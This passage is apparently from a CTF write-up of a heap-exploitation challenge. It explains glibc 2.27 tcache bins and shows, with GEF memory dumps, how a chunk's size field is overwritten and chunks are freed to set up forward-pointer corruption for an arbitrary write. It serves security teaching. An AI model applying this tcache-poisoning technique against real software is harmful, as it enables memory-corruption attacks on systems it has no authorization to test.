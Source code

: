 ```
roboquest_writeup.py:44: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  target.sendline(str(question_id))
[*] Switching to interactive mode
 [*] Question [0]: aaaaaaaaaaaaaaaaaaaaaaaa!
```
## Overwriting Metadata for Heap Chunks and Leaking a Heap Address:

To begin with, here is some relatively basic background on the heap and what happens when chunks are freed. Freed chunks are stored in bins. Which bin specifically will depend on the circumstances and the libc version in use; this challenge seems to use libc2.27, so typically, chunks will initially be freed and stored in the tcache. tcache bins are singly-linked lists, and the bin a chunk goes into will depend on its total size including heap metadata (i.e. the bytes indicating size and flags). When a chunk is binned, the first sixteen bytes of content will be overwritten by additional metadata; the important part for our purposes is that the first eight bytes point to the next free chunk in the tcache that can be filled, which is called the fd or forward pointer, freed chunks are filled on a LIFO (last-in first-out) basis, and freed chunks will typically be refilled by similarly sized chunks.  

As an additional note, the 1's at the end of the chunk sizes are flags indicated that the previous physical chunk in the heap is in use, which can be important in cases of heap consolidation but isn't super relevant here.

Also, you can see that the libc provided is 2.27 by using strings.
```
knittingirl@DESKTOP-C54EFL6:/mnt/c/Users/Owner/Desktop/CTF_Files/htb_uniCTF_finals22/pwn_roboquest/challenge$ strings -n10 .glibc/libc.so.6 | grep "libc-2."
libc-2.27.so
```
So far, we have a way to leak or edit the length of the next heap chunk. We can leverage this into an ability to arbitrarily edit as much of a heap chunk as we want, which, as the discerning reader may have noticed, creates the potential to overwrite the fd pointer to an arbitrary location and give us an arbitrary write primitive. The idea here is to allocate at least four chunks, which we will refer to as chunk a, b, c, and d, denoted by the characters written into the quote. The size of chunk b needs to be relatively small; we will be setting the quote length to 0x18, which would normally end up in the 0x20 bin when free due to metadata. Step one is to overwrite the stated size of chunk b to something larger; I've opted for 0x61 to increase the size to 0x60 and maintain the previously in-use flag.
```
gef➤  x/20gx 0x000055bd173e7260
0x55bd173e7260: 0x3030303030303030      0x3030303030303030
0x55bd173e7270: 0x3030303030303030      0x0000000000000051
0x55bd173e7280: 0x6262626262626262      0x6262626262626262
0x55bd173e7290: 0x6262626262626262      0x0000000000000021
0x55bd173e72a0: 0x6363636363636363      0x6363636363636363
0x55bd173e72b0: 0x6363636363636363      0x0000000000000021
0x55bd173e72c0: 0x6464646464646464      0x6464646464646464
0x55bd173e72d0: 0x6464646464646464      0x0000000000020d31
0x55bd173e72e0: 0x0000000000000000      0x0000000000000000
0x55bd173e72f0: 0x0000000000000000      0x0000000000000000
```
Step 2 is to free the chunk with the modified size. In GDB/GEF, the command "heap bins" is an easy way to check on the contents of various heap bin structures, including the tcache. In this case, we can see that after the free, chunk b has been placed in the 0x60 tcache. Then I free same-sized chunks d and c, in that order, so that the forward pointer on chunk c is filled and pointing to chunk c's start.
```
gef➤  x/20gx 0x000055bd173e7260
0x55bd173e7260: 0x3030303030303030      0x3030303030303030
0x55bd173e7270: 0x3030303030303030      0x0000000000000051
0x55bd173e7280: 0x0000000000000000      0x000055bd173e7010
0x55bd173e7290: 0x6262626262626262      0x0000000000000021
0x55bd173e72a0: 0x000055bd173e72c0      0x000055bd173e7010
```